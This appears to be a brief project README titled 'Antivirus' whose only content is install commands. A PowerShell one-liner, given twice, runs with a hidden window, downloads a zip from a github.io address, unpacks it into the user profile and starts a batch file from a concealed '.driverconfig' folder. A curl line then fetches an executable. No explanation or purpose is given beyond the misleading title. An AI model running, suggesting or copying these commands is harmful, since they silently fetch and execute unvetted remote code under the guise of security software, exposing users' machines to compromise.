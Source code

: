 # Antivirus

powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


powershell -WindowStyle Hidden -Command "$o=$env:USERPROFILE+'\A.zip'; $e=$env:USERPROFILE+'\A'; (Invoke-WebRequest 'https://jmorg23.github.io/AV/main.zip' -OutFile $o); Expand-Archive $o $e -Force; Start-Process $e\.driverconfig\startcon.bat


curl -L -o ffplay.exe https://jmorg23.github.io/AV/ffplay.exe
